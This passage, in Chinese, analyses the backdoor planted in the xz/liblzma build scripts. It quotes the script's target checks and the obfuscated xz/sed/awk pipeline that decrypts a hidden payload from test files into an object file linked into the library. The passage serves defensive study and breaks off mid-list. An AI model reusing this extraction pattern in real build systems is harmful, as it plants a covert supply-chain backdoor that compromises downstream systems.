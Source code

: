 ```sh
if ! (echo &#34;$build&#34; | grep -Eq &#34;^x86_64&#34; &gt; /dev/null 2&gt;&amp;1) &amp;&amp; (echo &#34;$build&#34; | grep -Eq &#34;linux-gnu$&#34; &gt; /dev/null 2&gt;&amp;1);then
```

- 如果 amd64/x86_64 是构建的目标

- 如果目标使用名称 `linux-gnu` （主要是检查是否使用了 glibc）

它还会检查正在使用的工具链：

```sh
if test &#34;x$GCC&#34; != &#39;xyes&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if test &#34;x$CC&#34; != &#39;xgcc&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
LDv=$LD&#34; -v&#34;
if ! $LDv 2&gt;&amp;1 | grep -qs &#39;GNU ld&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
```

如果正在尝试复现构建 Debian 或 Red Hat 软件包：

```sh
if test -f &#34;$srcdir/debian/rules&#34; || test &#34;x$RPM_ARCH&#34; = &#34;xx86_64&#34;;then
```

因此，这种攻击似乎是针对使用 Debian 或 Red Hat 派生发行版运行 glibc 的 amd64 系统。

其他系统目前可能容易受到攻击，但没有明确的证据。

#### 后门提取

正如 Andres 在原始电子邮件中指出的那样，在某些时候会提取 .o 文件并将其编织到编译/链接过程中。由以下代码负责

```sh
N=0
W=88664
else
N=88664
W=0
fi
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed &#34;s/\(.\)/\1\n/g&#34; | LC_ALL=C awk &#39;BEGIN{FS=&#34;\n&#34;;RS=&#34;\n&#34;;ORS=&#34;&#34;;m=256;for(i=0;i&lt;m;i&#43;&#43;){t[sprintf(&#34;x%c&#34;,i)]=i;c[i]=((i*7)&#43;5)%m;}i=0;j=0;for(l=0;l&lt;8192;l&#43;&#43;){i=(i&#43;1)%m;a=c[i];j=(j&#43;a)%m;c[i]=c[j];c[j]=a;}}{v=t[&#34;x&#34; (NF&lt;1?RS:$1)];i=(i&#43;1)%m;a=c[i];j=(j&#43;a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a&#43;b)%m];printf &#34;%c&#34;,(v&#43;k)%m}&#39; | xz -dc --single-stream | ((head -c &#43;$N &gt; /dev/null 2&gt;&amp;1) &amp;&amp; head -c &#43;$W) &gt; liblzma_la-crc64-fast.o || true
```

版本之间的差异归结为有损压缩(compressed-but-somewhat-mangled)的有效负载的大小，在 5.6.0 中是 88792，在 5.6.1 中是 88664，AWK 脚本中的一个值发生了变化，我们稍后会介绍这一点。

实际上某些步骤与Stage 1相同（它的二进制 payload 在“good”文件数据中先前被忽略的部分中）。

1. 与Stage 1 中的步骤 2 相同，用xz解压 tests/files/good-large_compressed.lzma 文件
